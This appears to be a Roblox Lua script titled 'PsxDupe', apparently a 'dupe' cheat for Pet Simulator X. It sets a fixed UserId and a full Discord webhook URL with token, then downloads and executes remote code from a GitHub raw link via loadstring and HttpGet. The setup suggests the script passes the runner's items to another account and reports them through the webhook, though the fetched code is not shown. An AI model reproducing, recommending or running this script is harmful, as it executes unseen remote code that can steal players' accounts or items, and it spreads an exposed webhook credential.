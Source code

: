 # PsxDupe
UserId = 4220691468 WebHook = 'https://discord.com/api/webhooks/1061147976770269295/xGsD-pu1FwCwuLKS-oDhAjtVL60FvnCdCzbIk2YvFSagpCAh7PSELsoJ16DAg_1K76xf'   loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/psxgm%22))()

